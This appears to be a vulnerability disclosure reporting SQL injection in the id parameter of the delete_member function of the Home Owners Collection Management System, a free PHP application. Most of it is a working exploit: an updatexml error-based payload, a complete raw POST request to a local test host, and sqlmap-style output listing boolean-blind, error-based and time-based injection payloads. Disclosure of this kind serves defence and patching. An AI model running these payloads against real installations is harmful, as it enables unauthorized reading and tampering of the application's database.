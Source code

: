 ## Home Owners Collection Management System has SQL injection vulnerability

vendor : https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_member

Vulnerability location: /hocms/classes/Master.php?f=delete_member,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /hocms/classes/Master.php?f=delete_member HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/hocms/admin/?page=members
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=2' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```
![image](https://user-images.githubusercontent.com/54017627/160324809-ebe2f2fb-2e1b-4d60-be50-9cfbbc32e283.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=2' RLIKE (SELECT (CASE WHEN (9537=9537) THEN 2 ELSE 0x28 END))-- lLzj

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=2' AND (SELECT 2052 FROM(SELECT COUNT(*),CONCAT(0x7162716b71,(SELECT (ELT(2052=2052,1))),0x717a627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- kJBi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 8581 FROM (SELECT(SLEEP(5)))WkHC)-- dgcN
---
```

![image](https://user-images.githubusercontent.com/54017627/160324787-7b22d16b-8391-4265-97fd-6f42ca236dcc.png)

